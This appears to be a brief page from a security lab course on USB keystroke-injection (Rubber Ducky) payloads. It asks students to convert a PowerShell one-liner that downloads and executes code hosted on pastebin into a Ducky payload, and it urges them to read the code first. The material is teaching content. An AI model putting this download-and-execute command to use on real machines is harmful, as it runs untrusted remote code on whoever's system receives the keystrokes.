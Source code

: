```yaml
---
layout: default
title: Encore!(2)
nav_order: 11
---
```


In our labs, we sent data to pastebin. But what if we used pastebin (or github) to host our malicious code?!
Duckify this powershell command:
```
iex((iwr http://pastebin.com/raw.php?i=sWacjDpa).content)
```
But before you do. 

PLEASE LOOK AT THE CODE AND UNDERSTAND IT!

Always be vigilant!
